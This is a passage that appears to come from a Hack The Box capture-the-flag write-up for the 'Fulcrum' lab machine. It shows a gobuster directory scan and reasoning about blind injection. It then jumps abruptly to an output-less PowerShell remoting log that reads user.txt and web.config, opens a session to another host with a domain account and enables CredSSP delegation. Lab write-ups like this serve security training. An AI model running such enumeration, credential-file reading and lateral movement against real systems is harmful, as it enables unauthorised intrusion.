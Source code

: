 !["Fulcrum API"](/assets/fulcrum/10.png "Fulcrum API")

Hitting it with gobuster reveals that, it only has a single resource available for us to hit. 

```
root@dastinia:~/htb/fulcrum# gobuster -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.10.62:56423 -x php,html -s 200,204,301,302,307,403 -t 100 | tee gobuster_fulcrum_56423

Gobuster v1.2                OJ Reeves (@TheColonial)
=====================================================
[+] Mode         : dir
[+] Url/Domain   : http://10.10.10.62:56423/
[+] Threads      : 100
[+] Wordlist     : /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes : 403,200,204,301,302,307
[+] Extensions   : .php,.html
=====================================================
/index.php (Status: 200)
```

People generally skip over some of the inner thought process of discovering vulerbilities. But in this case, we have no real way of interacting with the api that's available, so we are likely looking for some sort of blind injection vulnerability. (OS, XPath, XXE, SQLi etc..). We can pretty much rule out an SQL injection because the SQL database from our prior enumeration earlier wasn't functioning.


[192.168.30.130]: PS C:\Users\WebUser\Documents> $env:UserName
[192.168.30.130]: PS C:\Users\WebUser\Documents> $env:UserDomain
[192.168.30.130]: PS C:\Users\WebUser\Documents> dir
[192.168.30.130]: PS C:\Users\WebUser\Documents> type .\user.txt
[192.168.30.130]: PS C:\Users\WebUser\Documents> type .\CheckFileServer.ps1
[192.168.30.130]: PS C:\inetpub\wwwroot> dir
[192.168.30.130]: PS C:\inetpub\wwwroot> type web.config
[192.168.30.130]: PS C:\inetpub\wwwroot>
[192.168.30.130]: PS C:\Users\WebUser\Documents> Enter-PSSession -Computername file.fulcrum.local -Credential fulcrum.local\btables
[192.168.30.130]: PS C:\Users\WebUser\Documents> Enable-WSManCredSSP –Role Client –DelegateComputer spoke